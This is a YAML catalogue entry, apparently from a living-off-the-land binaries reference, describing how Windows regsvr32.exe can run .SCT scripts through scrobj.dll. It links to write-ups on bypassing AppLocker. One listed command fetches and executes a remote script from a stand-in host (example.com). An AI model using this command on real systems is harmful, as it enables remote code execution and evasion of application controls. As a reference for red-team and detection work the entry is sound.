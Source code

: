 ```yaml
---
Name: Regsvr32.exe
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
    Description: Execute the specified remote .SCT script with scrobj.dll.
  - Commands: regsvr32.exe /s /u /i:file.sct scrobj.dll
    Description: Execute the specified local .SCT script with scrobj.dll.
Full Path:
  - C:\Windows\System32\regsvr32.exe
  - C:\Windows\SysWOW64\regsvr32.exe
Code Sample: []
Detection: []
Resources:
  - https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Regsvr32.md
  - https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  - https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/
Notes: Thanks to Casey Smith - @subtee
---
```

